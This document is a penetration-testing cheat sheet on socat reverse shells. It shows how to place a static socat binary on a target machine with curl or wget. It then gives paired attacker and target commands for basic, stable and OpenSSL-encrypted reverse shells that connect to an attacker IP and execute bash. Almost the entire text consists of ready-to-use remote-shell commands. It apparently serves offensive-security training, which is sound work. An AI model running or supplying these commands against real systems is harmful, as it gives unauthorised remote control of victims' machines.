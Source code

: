 # socat

Using basic methods such as netcat will generate a shell that might not be stable: terminates with ctrl+Z, non-interactive shell, etc. Alternative methods are available:

Socat is generally more stable on Linux systems compared to Windows (target machine). As socat might not be installed on all target Linux systems, it will need to be installed. However, the common method of using `apt install` or `apt-get install` is not ideal as it requires multiple dependencies and other possible configurations.&#x20;

Instead, a static compiled binary (without dependencies) can be installed from a direct HTTP URL on the target machine using tools such as `curl` or `wget`. Link: [https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

```bash
$ curl https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true --output /bin/socat
```

```bash
$ wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true -O /bin/socat
```



_**Note**_: The output directory depends on a few factors such as the current working directory, or the value of the `$SHELL`environment variable. This is important to ensure the installed binary can be executed from the target machine.

#### Hosting the binary on a publicly accessible attacker-controlled machine

The binary can also be hosted on another attacker-controlled machine on the internet, and be accessed via a simple Python web server running on that machine.

### Reverse shell

#### Basic command to run on the attacker machine (listening)

```bash
$ socat tcp-l:[listen_port] -
```

#### Basic command to run on the target machine (initiate revere shell connection)

```bash
$ socat tcp:[attacker_ip]:[attacker_port] EXEC:"bash -li"
```

### Best reverse shell experience

Target machine

```bash
$ socat TCP:10.0.22.4:8888 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

Attacker machine

```bash
$ socat tcp-l:8888 FILE:`tty`,raw,echo=0
```



### Encrypted shell with OpenSSL

**Creating a self-signed certificate (on the attacker machine)**

```bash
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

1. `req`: Specifies to create a certificate request or certificate.&#x20;

* In this case, the `-x509` flag is specified, which indicates to create a self-signed certificate

2. `--newkeyrsa:2048`: This specifies that a new private key should be generated with the _RSA_ algorithm, using a key size of 2048 bits.

**Merge the two created files `shell.key` and `shell.crt` to the file `shell.pem`**

```bash
$ cat shell.key shell.crt > shell.pem
```

### Reverse shell

**Listen on attacker machine**

```bash
$ socat openssl-listen:<listen_port>,cert=shell.pem,verify=0 -
```

* `cert=shell.pem:` Specify to use the certificate`shell.pem`
* `verify=0`:  This tells OpenSSL to not validate the certificate&#x20;

#### Connect from the target machine

```bash
$ socat openssl:<attacker_ip>:<attacker_port>,verify=0 EXEC:/bin/bash
```



### Stable encrypted reverse shell

Attacker

```bash
$ socat openssl-listen:<listen_port>,cert=<cert>,verify=0 FILE:`tty`,raw,echo=0
```

Target

```bash
$ socat openssl:<attacker_ip>:<attacker_port>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
